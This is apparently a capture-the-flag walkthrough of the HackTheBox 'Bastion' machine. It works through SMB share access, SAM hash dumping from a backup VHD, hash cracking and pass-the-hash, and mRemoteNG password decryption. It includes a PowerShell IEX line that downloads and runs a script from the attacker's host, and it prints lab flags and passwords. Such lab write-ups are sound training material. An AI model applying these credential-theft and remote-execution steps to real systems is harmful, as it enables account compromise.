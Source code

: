 ```yaml
---
title : "2020-02-HTB-Bastion"
author: Jesse Moore
date: 2020-02-07 09:26:00 +0800
categories: [HackTheBox]
tags: [hacking, Windows, HTB]
---
```

![Screenshot 2022-05-18 202633](https://user-images.githubusercontent.com/6413570/169198097-7183d13b-8e54-4aa9-adb7-84f9131e7638.jpg)

10.10.10.134

ippsec.rocks/?#locat

https://www.hackthebox.eu/home/machines/profile/186
https://overflow.uaacyber.dev/2019/09/bastion.html
https://0xrick.github.io/hack-the-box/bastion/
https://github.com/kmahyyg/mremoteng-decrypt
https://www.elasticice.net/?p=255


![image](https://user-images.githubusercontent.com/6413570/169198090-dbe50757-25a2-4566-9967-56b7c8ef46b1.png)

nmap -sV -sC -oA nmap/Bastion 10.10.10.134

![image](https://user-images.githubusercontent.com/6413570/169198195-03df5cfb-eefc-49d6-8208-81a563e6eac8.png)

Scan the host as anonymous for open smb shares using SMBMap. 
Install SMBMap
![image](https://user-images.githubusercontent.com/6413570/169198253-6f4e02d1-320d-47e3-b3b0-7c01f7a904f3.png)

python3 -m pip install -r requirements.txt

List Shares that have no password:
smbclient --list //bastion.htb/ -U '
![image](https://user-images.githubusercontent.com/6413570/169198311-2555d8f0-69fa-4006-8a47-f6c6139e314d.png)


Looks like Backups is the only Comment that doesn't say we cant access

smbclient //10.10.10.134/Backups -U 

![image](https://user-images.githubusercontent.com/6413570/169198373-b6015259-46cb-4241-864b-64244065d0e9.png)

press l to list

![image](https://user-images.githubusercontent.com/6413570/169198429-82bf0367-631f-4726-b618-bc899f5df383.png)

![image](https://user-images.githubusercontent.com/6413570/169198460-b3df6a92-9861-429a-aa96-a5d9c00f6f25.png)

So we need to mount the VHD in the other directory
![image](https://user-images.githubusercontent.com/6413570/169198507-6f0c298f-dcad-426b-82ba-78f0c680819b.png)

cd Backup
![image](https://user-images.githubusercontent.com/6413570/169198529-c862e7cc-7f36-4d5e-9646-fba621978462.png)

See the VHD

Mount Backups
mount -t cifs //10.10.10.134/Backups /mnt/smb
![image](https://user-images.githubusercontent.com/6413570/169198566-ca3de773-3d2f-4a31-88d0-110e4c3d0ce2.png)

cat note.txt
![image](https://user-images.githubusercontent.com/6413570/169198605-712b7487-793a-494f-838f-7e9ead661e87.png)

use &zip if you want to see files... however we will just mount the vhd using guestmount
7z l 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd

####################################
mkdir /mnt/vhd2
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd2

to mount a VHD you need this:
apt install libguestfs-tools

Create a mount directory to use for the mount
mkdir /mnt/vhd2

Use guestmount to mount the VHD
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro -v /mnt/vhd2
![image](https://user-images.githubusercontent.com/6413570/169198657-2ec6290a-68be-4831-aa27-70acd39f3c78.png)

Find files in these directories
find Desktop Documents/ Downloads/ -ls
![image](https://user-images.githubusercontent.com/6413570/169198699-5d565314-ee5e-49df-b337-8b9110697e44.png)

Go into vhd2 and navigate to config in Windows to obtain SAM and SYSTEM files
![image](https://user-images.githubusercontent.com/6413570/169198737-a18b9713-591a-4a7e-bcb8-5808ab1db5ee.png)

cp SAM SYSTEM /root/htb/bastion
cd /root/htb/bastion
mkdir backup-dump
mv SAM SYSTEM backup-dump/
cd backup-dump/
![image](https://user-images.githubusercontent.com/6413570/169198770-6957f2c0-90bd-4dd7-ae54-0f676ed15f10.png)

root@kali:~/htb/bastion/backup-dump# impacket-secretsdump -sam SAM -system SYSTEM local

![image](https://user-images.githubusercontent.com/6413570/169198813-2e9837fa-f727-4ce5-9ee5-b6286624260b.png)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::


NOTICE the Administrator NT HASH is BLANK aka 31d6c and the LM hash of aad3, which means the Administrative account is disabled.

try to crack the L4mpje hash 26112010952d963c8dc4217daec986d9 

https://crackstation.net/
![image](https://user-images.githubusercontent.com/6413570/169198862-1bea1925-8c17-4920-9355-8133d76faf05.png)


bureaulampje

OR pass the hash
smbmap -u L4mpje -p ad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134

ssh L4mpje@10.10.10.134
bureaulampje

![image](https://user-images.githubusercontent.com/6413570/169198890-39ffc99e-ddef-4213-9285-d815d93f33fa.png)

net localgroup administrators
net user l4mpje
net user administrator

now that you see administrator has logged in... time to Priv Esc

Grab from Kali
JAWS Enumeration powershell github

git clone https://github.com/411Hall/JAWS.git


On TARGET:
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')
![image](https://user-images.githubusercontent.com/6413570/169198945-4c0f91a7-f49a-4fe6-b665-e568c6048e83.png)


In ANOTHER Windows
root@kali:~/htb/bastion# echo l4mpje:bureaulampje > creds
root@kali:~/htb/bastion# ls
backup-dump creds JAWS mountstuf nmap smbmap
root@kali:~/htb/bastion# cat creds
l4mpje:bureaulampje
root@kali:~/htb/bastion# ssh l4mpje@10.10.10.134
![image](https://user-images.githubusercontent.com/6413570/169198982-396b2d03-a845-4870-b9d0-ae2f5e14b3cc.png)

type C:\Users\L4mpje\Desktop\user.txt 

PS C:\Users\L4mpje> type C:\Users\L4mpje\Desktop\user.txt 
9bfe57d5c3309db3a151772f9d86c6cd 

git clone https://github.com/411Hall/JAWS.git

![image](https://user-images.githubusercontent.com/6413570/169199638-6e3a68b8-493d-427c-88a3-c8dc4e79d2c5.png)

python -m SimpleHTTPServer


On the TARGET:
powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/jaws-enum.ps1')


Looking through the JAWS output we see a programx86 as mRemoteNG

![image](https://user-images.githubusercontent.com/6413570/169199027-94265486-0687-408d-aa88-507f0d5c1892.png)

After manually enumerating installed programs mRemoteNG stands out of interest. Tool is used to remotely access server resources and is suggested to store credentials in an insecure manner. Credentials for application noted as being stored in file confCons.xml. Copy of the confCons.xml file obtained from %USER%/AppData/Roaming/mremoteng/confCons.xmland reviewed. 

Two items of interest found from reviewing file are below. File appears to store RDP credentialsfor user Administrator and L4mpje.
![image](https://user-images.githubusercontent.com/6413570/169199067-dae94686-b0b0-42c2-9247-b4c3df41a0ba.png)

Download decrypt python tool
https://github.com/kmahyyg/mremoteng-decrypt

Download the mRemotNG confCons.xml from target
scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
![image](https://user-images.githubusercontent.com/6413570/169199111-b7d8cb29-b75e-4e5a-a50a-5a67b2eddd3e.png)


cat confCons.xml | grep Password
![image](https://user-images.githubusercontent.com/6413570/169199149-8e3e94ae-46ff-40bc-b38d-ea69e93d0c69.png)

Username=Administrator Domain= Password=aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw== Hostname=127.0.0.1 Protocol=RDP
![image](https://user-images.githubusercontent.com/6413570/169199194-431f5a5a-641c-4d05-9d82-ac4d704e2476.png)

root@kali:~/htb/bastion/mremoteng-decrypt# python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2

Now SSH with that password as Administrator
ssh administrator@10.10.10.134


administrator@BASTION C:\Users\Administrator\Desktop>type root.txt 
958850b91811676ed6620a9c430e65c8
![image](https://user-images.githubusercontent.com/6413570/169199226-f131b09f-a0a0-4e49-9a17-cc31144146f8.png)


If you find the notes interesting, you can buy me a coffee 

<a href="https://www.buymeacoffee.com/jessefmoore"><img src="https://img.buymeacoffee.com/button-api/?text=Buy me a Coffee?&emoji=&slug=jessefmoore&button_colour=b86e19&font_colour=ffffff&font_family=Poppins&outline_colour=ffffff&coffee_colour=FFDD00" /></a>

